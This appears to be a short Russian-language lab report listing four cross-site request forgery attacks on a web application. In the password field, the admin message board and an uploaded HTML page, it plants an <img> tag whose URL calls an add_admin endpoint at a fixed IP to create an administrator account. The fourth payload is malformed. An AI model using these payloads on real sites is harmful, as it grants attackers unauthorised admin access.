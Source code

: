 ## Отчет

## Атака 1
При создании нового пользователя можно ввести в поле для пароля `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`, и пользователь успешно создастся

## Атака 2
В message board админу можно отправить `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`!!! и пользователь создастся

## Атака 3
В форму для отправки файлов можно вставить html страницу с таким кодом: `<img src="http://92.63.179.34/add_admin?username=user&password=user&isAdmin=yes&submit=Add+User">`

## Атака 4
img src="http://92.63.179.34/add_admin?{ "username":"userr", "password":"userr", "isAdmin":"yes", "submit":"Add User"}">
